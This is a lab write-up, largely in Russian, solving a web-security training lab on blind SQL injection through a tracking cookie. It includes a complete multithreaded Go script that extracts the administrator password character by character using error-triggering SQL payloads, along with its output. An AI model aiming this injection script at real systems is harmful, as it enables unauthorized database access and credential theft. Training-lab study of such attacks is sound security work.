

# Lab: Blind SQL injection with conditional errors

Level: `PRACTITIONER`

## Description

This lab contains a blind `SQL` injection vulnerability.
The application uses a tracking cookie for analytics, and performs a SQL query containing the value of the submitted cookie.

The results of the `SQL` query are not returned, and the application does not respond any differently based on whether the query returns any rows. If the `SQL` query causes an error, then the application returns a custom error message.

The database contains a different table called `users`, with columns called `username` and `password`.
You need to exploit the blind `SQL` injection vulnerability to find out the `password` of the `administrator` user.

> To solve the lab, log in as the `administrator` user.

# Solution

Если в поле куки оставить одинарную кавычку `'`: `TrackingId=LSOuvUGbdM9yNLYV'`, то мы получим ошибку, а если закроем
ее то ошибки не будет, так мы подтвердили наличие `blind-sqli`

Теперь, когда мы определили вектор и поняли как определить прошел запрос или нет,
просто берем прошлый скрипт и меняем его под нашу лабу:

```go
package main

import (
	"fmt"
	"net/http"
	"strings"
	"sync"
	"time"
)

const (
	// Сколько потоков использовать (можно поставить 20-30)
	maxWorkers = 30
	// Максимальная длина пароля (в лабе 20)
	maxPasswordLength = 20
	// Алфавит для перебора
	charset = "abcdefghijklmnopqrstuvwxyzABCDEFGHIJKLMNOPQRSTUVWXYZ0123456789"
)

func main() {
	// === НАСТРОЙКИ ЛАБОРАТОРИИ ===
	targetURL := "https://0a2900bf0375107c827d24a000ae003e.web-security-academy.net/filter?category=Corporate+gifts"
	sessionCookie := "EGkBkqiaQefhr0s2OhrZUaqMMRpfPfxm" 
	trackingID := "LSOuvUGbdM9yNLYV"
	
	var password strings.Builder

	fmt.Println("[*] Начинаю брутфорс пароля...")

	// Перебираем позиции с 1 до maxPasswordLength
	for position := 1; position <= maxPasswordLength; position++ {
		foundChar := make(chan string, 1)
		var wg sync.WaitGroup

		// Запускаем воркеры для перебора символов на текущей позиции
		for _, char := range charset {
			wg.Add(1)
			go func(c rune) {
				defer wg.Done()
				if checkChar(targetURL, sessionCookie, trackingID, position, string(c)) {
					// Если нашли, отправляем в канал (неблокирующая отправка)
					select {
					case foundChar <- string(c):
					default:
					}
				}
			}(char)
		}

		// Ждем, пока все воркеры завершат работу (или найдут символ)
		wg.Wait()
		close(foundChar)

		// Получаем найденный символ
		char, ok := <-foundChar
		if !ok {
			fmt.Printf("\n[-] Символ для позиции %d не найден. Останавливаюсь.\n", position)
			break
		}

		password.WriteString(char)
		fmt.Printf("\r[+] Текущий пароль: %s", password.String())
	}

	fmt.Printf("\n\n[+] Готово! Пароль: %s\n", password.String())
}

// checkChar отправляет один запрос и проверяет, есть ли 'Welcome back!'
func checkChar(url, session, tracking string, pos int, char string) bool {
	// Формируем SQL-инъекцию
	// Обрати внимание на кавычки: '§a§' превращается в 'a'
	payload := fmt.Sprintf("%s'||(SELECT CASE WHEN SUBSTR(password,%d,1)='%s' THEN TO_CHAR(1/0) ELSE '' END FROM users WHERE username='administrator')||'", tracking, pos, char)
	
	req, err := http.NewRequest("GET", url, nil)
	if err != nil {
		return false
	}

	// Подставляем куки
	cookieStr := fmt.Sprintf("TrackingId=%s; session=%s", payload, session)
	req.Header.Set("Cookie", cookieStr)
	req.Header.Set("User-Agent", "Mozilla/5.0 (Windows NT 10.0; Win64; x64)")

	client := &http.Client{Timeout: 10 * time.Second}
	resp, err := client.Do(req)
	if err != nil {
		return false
	}
	defer resp.Body.Close()

	// Ищем маркер истины
	return resp.StatusCode == 500
}
```

Результат:

```bash
[*] Начинаю брутфорс пароля...
[+] Текущий пароль: 7lgsbhc8cpc986fyuev0

[+] Готово! Пароль: 7lgsbhc8cpc986fyuev0
```



# Небольшой разбор скрипта

Скрипт аналогичен предыдщуему, но здесь несколько ключевых моментов:
1. payload: `%s'||(SELECT CASE WHEN SUBSTR(password,%d,1)='%s' THEN TO_CHAR(1/0) ELSE '' END FROM users WHERE username='administrator')||'`.
   Он Устроен так, что если мы угадали символ, то вызывается ошибка на сервере.
2. Мы не читаем сам ответ, от ответа нужен только код
3. Код ответа, когда символ угадан -- это `500`, потому что именно мы
   вызываем внутреннюю ошибку сервера. Вот и все.
